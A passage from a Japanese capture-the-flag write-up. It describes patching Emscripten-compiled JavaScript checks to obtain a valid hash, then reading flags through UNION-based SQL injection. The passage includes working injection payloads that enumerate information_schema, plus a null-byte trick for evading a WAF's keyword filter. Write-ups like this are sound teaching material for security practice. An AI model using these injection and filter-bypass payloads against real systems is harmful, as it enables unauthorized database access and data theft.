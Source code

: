 ```javascript
  $42 = ($41<<24>>24)<(58);
  $43 = (($i$0) + 1)|0;
  if ($42) {
   $i$0 = $43;
  } else {
   label = 12;
   break;
  }
```

と、文字が数字でなければそこで処理を中断するという部分があります。`$34` `$42` が true になるように書き換えて `Module.main('a')` を実行すると…結果は `WrongBoy` でした。

どこで適当にブレークポイントを仕掛けながら `Module.main('a')` を実行してみると、どうやら

```javascript
 $12 = (__Z4uiiiRKNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEE($inStr)|0);
 $13 = ($12|0)==(199401);
 if (!($13)) {
  // …
  STACKTOP = sp;return;
 }
```

という部分で return しているとわかりました。`__Z4uiiiRKNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEE` を見てみるとこちらも文字が数字であるかチェックしているようでした。

常に `$13` が `199401` になるように書き換えて `Module.main('a')` を実行してみると、`0287057671f9df51356a6064cf29bc3a|0|yo` が返ってきました。`/api.php?id=a&hash=0287057671f9df51356a6064cf29bc3a&time=0` にアクセスしても `hey boy` は表示されません。やった!

あとは SQLi をするだけです。`100 union select 1, group_concat(table_name, ":" , column_name) from information_schema.columns where table_schema=database()` で `fl4g:hey,user:id,user:name` が返ってきました。

`100 union select 1, hey from fl4g` でフラグが表示されました。

```
flag{emScripten_is_Cut3_right?}
```

## [Web] simplesqlin

与えられた URL を開いてみると、シンプルなブログが出てきました。

`?id=1 order by 3` が通り、明らかに SQLi ができます。が、id に`select` `from` `where` のような文字列が含まれていると `Your request is blocked by waf.` という感じで弾かれてしまいます。

`?id=100 union selec%00t 1, 2, 3` という感じで null 文字を挟んでみると WAF の回避ができ、タイトルに 2、本文に 3 が表示されました。

`?id=100 union selec%00t 1, 2, group_concat(table_name, ":" , column_name) fro%00m information_schema.columns wher%00e table_schema=database()` で `flag:flag,news:id,news:title,news:content` が返ってきました。

あとは `?id=100 union selec%00t 1, 2, flag fro%00m flag` でフラグが表示されました。

```
flag{W4f_bY_paSS_f0R_CI}
```
